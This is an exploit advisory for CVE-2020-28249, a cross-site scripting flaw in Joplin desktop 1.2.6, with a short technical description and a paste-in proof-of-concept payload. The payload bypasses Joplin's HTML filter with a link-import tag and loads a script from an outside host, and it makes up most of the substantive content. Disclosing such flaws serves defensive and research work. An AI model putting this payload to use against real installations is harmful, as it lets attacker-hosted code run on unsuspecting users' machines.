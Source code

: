 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting <br>
 Date: 2020-10-27 <br>
 Exploit Author: Philip Holbrook (@fhlipZero) <br>
 Vendor Homepage: https://joplinapp.org/ <br>
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6  <br>
 Version: 1.2.6  <br>
 Tested on: Windows / Mac  <br>
 CVE : CVE-2020-28249  <br>
 References:  <br>
 PENDING next release <br>

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:
```
<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>
```
<img src="./60b6772ab455487b92268ad45a6dd677.png" width="500">

<img src="./7f76fb066b9d4e3bad4c4b59538140e4.png" width="500">
